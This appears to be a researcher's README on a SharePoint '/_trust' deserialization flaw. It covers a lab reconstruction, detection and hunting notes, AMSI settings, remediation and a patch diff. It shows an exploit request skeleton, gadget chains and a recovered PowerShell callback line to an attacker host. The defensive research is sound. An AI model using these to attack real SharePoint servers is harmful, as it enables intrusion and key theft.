







# SharePoint `/_trust` WS-Federation Deserialization: PoC & Detection Notes

> Live writeup (GitHub Pages): https://sp-poc.wismansec.com/ (HTML rendering of this document).
>
> Affected: SharePoint Server 2016, 2019, and Subscription Edition.

Reconstruction of a SharePoint Server (Subscription Edition) intrusion in an isolated lab, built to (a) understand the full attacker capability, (b) determine what a defender should hunt for, including stealthy persistence, and (c) share a PoC to aid other investigators.

> **Authorized research only.** Everything here was performed on isolated, personally-owned lab hardware and accounts, against a build deliberately left unpatched for the test. The underlying issue is fixed by the vendor; apply the current updates. Do not run this against systems you do not own and have explicit authorization to test. Machine-key values, internal hostnames/IPs, and callback domains are redacted in the text and example artifacts. The SIEM screenshots are unmodified and carry the lab's real names; see the note in §4.

- **By:** WismanSec
- **Fix:** July 2026 updates (KB5002882)
- **Related CVEs** (this cluster, CISA KEV-listed): CVE-2026-50522, CVE-2026-45659, CVE-2026-56164, CVE-2026-58644
- **Vulnerability class:** the `/_trust` SecurityContextToken BinaryFormatter deserialization family

---

## TL;DR for responders

- A single unauthenticated `POST /_trust/default.aspx` (WS-Federation sign-in) carrying a malicious `SecurityContextToken` triggers BinaryFormatter deserialization in the SharePoint worker (`w3wp.exe`), yielding remote code execution as the web-app pool identity.
- The same primitive can dump the farm machine keys (ValidationKey/DecryptionKey) entirely in-process. In a default-config farm: **no child process, no AV alert, no beacon** (enabling AMSI request-body scanning for `/_trust` detects and blocks it; see §5). Those keys let an attacker forge `__VIEWSTATE`/auth tokens that survive patching.
- **Patching is not enough. Rotate machine keys** on any farm you believe was hit, and hunt the `/_trust` request signature, which is the one artifact present in every variant.

---

## 1. The vulnerability

SharePoint exposes a WS-Federation passive sign-in endpoint at `/_trust/default.aspx`. A crafted sign-in response (`wa=wsignin1.0` + `wresult=<RequestSecurityTokenResponse>`) embeds a `SecurityContextToken` whose `<Cookie>` element is a base64, DEFLATE-compressed BinaryFormatter stream. Server-side, that cookie is decompressed and **deserialized without type restriction**, so a gadget chain (via `ysoserial.net`) executes attacker-controlled code inside `w3wp.exe`.

Request skeleton (unauthenticated):

```
POST /_trust/default.aspx HTTP/1.1
Content-Type: application/x-www-form-urlencoded

wa=wsignin1.0&wctx=<url>&wresult=<RequestSecurityTokenResponse>...
  <SecurityContextToken><Cookie>BASE64(DEFLATE(BinaryFormatter payload))</Cookie>...
```

## 2. Two chains from one primitive

| Chain | Gadget | Effect | Output channel |
|---|---|---|---|
| **OOB RCE** | `TypeConfuseDelegate` → `-EncodedCommand` PowerShell | code execution as pool identity | out-of-band (HTTP/DNS beacon) |
| **Machine-key disclosure** | `ActivitySurrogateDisableTypeCheck` → `ActivitySurrogateSelectorFromFile` (compiles `KeyDump.cs` in-proc) | dumps ValidationKey/DecryptionKey | inline in the HTTP response |

Scripts (sanitized) in [`scripts/`](scripts/): a parameterized OOB RCE and the two-stage key-dump. Payload delivery uses PowerShell `-EncodedCommand` so multi-statement payloads survive the `cmd.exe`/transport layers intact (no `;`/`&&` quoting breakage).

## 3. Lab

Single SharePoint SE farm (build pinned pre-fix), app-pool identity `LAB\sp_pool`, PowerShell 5.1, Microsoft Defender on with cloud protection. Telemetry (Windows Event Log, SharePoint logs, Defender for Endpoint) shipped to [nano](https://github.com/nano-rs/nano), a lightweight open-source SIEM; attacker host ran `ysoserial.net`; an `interactsh` client provided the OOB listener. Addresses and domains are redacted in the text; see the screenshot note in §4.

## 4. Results: invocation → artifact matrix

Every row is one real detonation; artifacts pulled from the SIEM + OOB listener per run.

> **Screenshots are unmodified.** They carry the lab's real host and NetBIOS names, which are crude
> and differ from the sanitized `SHAREPOINT01` / `LAB` used throughout the text. Same runs, same
> events, nothing staged. Work-safe equivalents in [`artifacts/`](artifacts/).

| Invocation | Process tree (as `LAB\sp_pool`, High) | Defender | OOB beacon | Primary artifacts |
|---|---|---|---|---|
| OOB RCE, **default** | `w3wp.exe → cmd.exe → powershell.exe → conhost.exe` | `Behavior:Win32/WebshellLauncher.A` (EID 1116 detect / 1117 Remove) | landed (race) | 4688 tree; Defender 1116/1117; `/_trust` POST |
| OOB RCE, **`-RawCmd`** | `w3wp.exe → powershell.exe → conhost.exe` (no cmd) | **none** | landed (DNS+HTTP) | 4688 tree; `/_trust` POST; beacon |
| OOB RCE, **`-DropFile`** | `w3wp.exe → powershell.exe` | none | landed | file write to `…\TEMPLATE\LAYOUTS\` (not in object-access-audited log) |
| OOB RCE, **`-Diag`** | `w3wp.exe → powershell.exe → whoami.exe` | none | landed | env disclosure exfil: `{host, whoami, PSver, LanguageMode}` |
| **Machine-key dump** | *(none, in-process)* | **none** | *(none)* | only the `/_trust` POST + anomalous response carrying the keys |

These outcomes are for the default AMSI configuration (Balanced mode, `/_trust` not scanned). With AMSI request-body scanning of `/_trust` enabled (Full mode or targeted), every row is instead **blocked at the request layer**: HTTP 400, `Exploit:Script/SpCookieExec.A`, before execution (see §5).

### Every RCE detonation, one query



All four documented detonations, 15:01 to 15:18 UTC, every child of `w3wp.exe` running as the pool identity. Three of the four are `powershell.exe` spawned directly. Only the 15:03:34 run goes through `cmd.exe`, and only that run was detected. Widen the window past this one and earlier development iterations from the same morning enter the result set, so the claim is scoped to these four runs.

### The same exploit, two process trees



Default invocation: `w3wp.exe → cmd.exe → powershell.exe`, with `conhost.exe` alongside. This is the shape `Behavior:Win32/WebshellLauncher.A` keys on.



`-RawCmd` invocation, same primitive and same payload, with the `cmd.exe` hop removed. Defender produced nothing for this run. A detection built on `w3wp → cmd` misses it entirely.

### The detection that fired, and the three runs it missed



Every Defender event in the same 25-minute window that contained four detonations. All three belong to the single `cmd.exe` run: two `malware_detected` at Severe, then `malware_action_taken` with action `Remove`. Remediation did not beat the beacon, which completed first.

Key command line recovered verbatim from Security 4688 (encoding ≠ evasion):

```
"C:\Windows\System32\cmd.exe" /c powershell.exe -NoProfile -NonInteractive -EncodedCommand <base64>
   → decodes to: iwr -UseBasicParsing 'http://<attacker-oast>/c'
```



The encoded command line as it appears in the SIEM. It is base64 of UTF-16LE and nothing more; `base64 -d | iconv -f utf-16le -t utf-8` recovers the callback in one step. Encoding is not obfuscation.

### The key-dump leaves nothing behind

The two frames below cover the identical 90-second window in which the farm machine keys were stolen.



Unfiltered, the window holds 20 events. The host is alive and shipping telemetry.



Filtered to children of `w3wp.exe`, the same window is empty. No process, no Defender event, no beacon. The keys left over the HTTP response and the only host-side artifact was the `/_trust` request itself, which this SIEM was not collecting. Patching does not revoke stolen keys; rotate them.

`-Diag` disclosure captured at the OOB listener (URL-decoded):

```json
{ "host": "SHAREPOINT01", "who": "LAB\\sp_pool", "v": "5.1.20348.558", "lm": "FullLanguage" }
```

## 5. Detection & hunting

**The one signature present in every variant.** Hunt this first:

- IIS / SharePoint logs: `POST /_trust/default.aspx` with body `wa=wsignin1.0` and a `wresult` containing `RequestSecurityTokenResponse` + `SecurityContextToken`/`<Cookie>`. Unauthenticated, often anomalous User-Agent. Response-status baseline: legitimate WS-Federation sign-in traffic to this endpoint is predominantly HTTP 302; the exploit returns other statuses (200, 500, a connection reset, or 400 when AMSI blocks). Where the endpoint carries real sign-in volume, treat a non-302 response to `POST /_trust/default.aspx` as anomalous. Status alone does not confirm exploit success; a successful run returned both 200 and a reset.

**Process-based (RCE variants only):**

- `w3wp.exe` spawning `cmd.exe` or `powershell.exe` directly. The `-RawCmd` variant removes the `cmd.exe` hop and evades `WebshellLauncher.A`, so **do not key solely on `w3wp→cmd`**.
- Any `powershell.exe -EncodedCommand` under `w3wp`: decode the blob straight from 4688 (it is not obfuscated at rest).
- `w3wp.exe → whoami.exe` (recon), or child `conhost.exe`.

**Two findings that affect response decisions:**

1. **A behavioral detection does not guarantee prevention.** When Defender detected the process chain as `Behavior:Win32/WebshellLauncher.A` and remediated it, the outbound beacon was observed to complete before remediation finished in at least one execution. Treat such a detection as a possible successful callback and review DNS, proxy, and outbound logs for the callback destination around the detection time.
2. **The machine-key disclosure produces no process, service, or network telemetry.** It executes inside `w3wp.exe` and returns the keys in the HTTP response, so the only host-side evidence is the `POST /_trust/default.aspx` request and its response. Whether it is detected depends on the AMSI request-body scan configuration.

MITRE ATT&CK: T1190 (exploit public-facing application) · T1059.001 (PowerShell) · T1552 (unsecured credentials: machine keys) · T1550 (use of forged authentication material, post-theft).

### AMSI request-body scanning

Both chains deliver their payload in the body of the `POST /_trust/default.aspx` request. Whether Microsoft Defender inspects that payload is governed by SharePoint's AMSI request-body scan configuration for the web application. Three configurations were tested directly against this farm (SharePoint Server Subscription Edition, Microsoft Defender):

| AMSI request-body configuration | Result |
|---|---|
| Balanced mode, `/_trust/default.aspx` not in the targeted-endpoint list (default) | request body not scanned; both chains execute; no Defender detection |
| Balanced mode, `/_trust/default.aspx` added as a targeted endpoint | request body scanned; request blocked |
| Full mode (all endpoints scanned) | request body scanned; request blocked |

In the default configuration the request body is not inspected, so both the RCE and the machine-key disclosure complete and produce no AMSI detection. In either scanning configuration the request is rejected with HTTP 400 before deserialization, no worker process is created, and Defender records:

| Field | Value |
|---|---|
| Threat | `Exploit:Script/SpCookieExec.A` (ID 2147969862) |
| Severity / category | Severe / Exploit |
| Detection source | AMSI |
| Action | Quarantine |
| Process | `C:\Windows\System32\inetsrv\w3wp.exe` |

Because the request is blocked before any code runs, no child process is created and no `Security 4688` process-creation events are produced for either chain. The RCE variant that spawns `powershell.exe` directly (without an intermediate `cmd.exe`) is blocked identically.

Configuration (SharePoint Management Shell, per web application):

```powershell
$wa = Get-SPWebApplication https://<webapp>
$wa.AMSIBodyScanMode = 2                              # Full: scan all endpoints
# or keep Balanced mode and scan this endpoint only:
$wa.AddAMSITargetedEndpoints('/_trust/default.aspx', 1)
$wa.Update(); iisreset
```

## 6. Remediation

1. **Patch** to the fixed SharePoint build.
2. **Rotate machine keys** (`Set-SPMachineKey` / update `web.config` machineKey + `IISReset`) on any farm potentially reached. Patching stops the RCE but does not revoke keys already stolen; rotation removes the attacker's ability to forge `FedAuth` / `SecurityContextToken` / `__VIEWSTATE` for persistence.
3. Hunt historical IIS logs for `POST /_trust/default.aspx`. Legitimate WS-Federation sign-in also targets this endpoint with `wa=wsignin1.0`, so key on the exploit-specific structure, not the endpoint alone: a `wresult` whose token is a `<SecurityContextToken>` with a base64 `<Cookie>` (namespace `http://schemas.microsoft.com/ws/2006/05/security`; legitimate sign-in instead carries a signed SAML assertion), together with a non-302 response (200/500/400 or a reset) and a scripted/anomalous User-Agent. The key-dump sends two such POSTs in rapid succession. If present, assume key compromise.
4. Review for forged `__VIEWSTATE` / anomalous auth after the first-seen date.
5. **Enable AMSI request-body scanning for `/_trust`** (Full mode, or add `/_trust/default.aspx` as a Balanced targeted endpoint; see §5). This blocks both the RCE and the key-dump at the request layer, before execution.

## 7. Root cause: June → July patch diff

Static analysis of the vendor's fix confirms the mechanism and settles whether the RCE needs the stolen machine keys: it does not. Method: binary patch-diff of `Microsoft.SharePoint.IdentityModel.dll` between the June CU (KB5002873, 16.0.19725.20384) and July CU (KB5002882, 16.0.19725.20434); decompiled and compared, read-only.

The exploited read path is `SPFederationAuthenticationModuleV2.OnAuthenticateRequest` → `SPSessionSecurityTokenHandlerV2` (a subclass of `System.IdentityModel.Tokens.SessionSecurityTokenHandler`). The change:

| | June (vulnerable) | July (fixed) |
|---|---|---|
| Cookie transform chain | `s_Transforms = { new DeflateCookieTransform() }` (deflate only) | `s_Transforms = { new NotSupportedCookieTransform() }` (`Decode`/`Encode` throw) |
| `ReadToken` overrides | none (inherits base `ReadToken`) | `ReadToken(XmlReader, SecurityTokenResolver)`, `ReadToken(XmlReader)`, `ReadToken(string)` all throw `NotSupportedException` |

**Interpretation.** The pre-patch transform chain was deflate-only, with no encryption and no MAC/signature transform keyed on the machine key. The base `ReadToken` applies the transforms and deserializes the cookie value, so a forged token is inflated and deserialized with no machine-key validation gate; the gadget fires without the `ValidationKey`/`DecryptionKey` (key-independent). The fix removes the sink (the transform and `ReadToken` throw) rather than adding a signature/decryption check, confirming there was no key gate to fix.

**Consequence.** The machine-key disclosure is a separate persistence objective (forging `FedAuth` / `SecurityContextToken` / `__VIEWSTATE`), not a prerequisite for the RCE; the key-dump is itself an RCE over the same path and runs before any key is stolen.

A second, unrelated hardening ships in the same July CU: JWT actor-token signature validation in `SPJsonWebSecurityTokenHandlerV2` (`RequireSignedTokens` false→true, new `VerifyActorTokenSignature`), a distinct OAuth / server-to-server actor-token path, not the WS-Federation session-token path covered here.

**Applying the fix.** The fix is the July CU (KB5002882): it swaps the deflate-only cookie transform for one that throws, removing the sink. After installing it, confirm neither farm setting reverts or bypasses it. `SessionCookieTransformProtectionEnabled` set to `false` reverts the session-token cookie to the vulnerable deflate-only transform (re-opening the RCE and key-dump), and the `DisableActorTokenSignatureValidation` debug flag re-opens the separate JWT actor-token signature bypass hardened in the same update.

## 8. Repo layout

```
README.md            – this document
scripts/             – sanitized PoC scripts (OOB RCE + machine-key dump)
detection/           – hunt queries / IOC list
artifacts/           – redacted example artifacts (process trees, Defender events, beacons)
LICENSE, DISCLAIMER.md
```
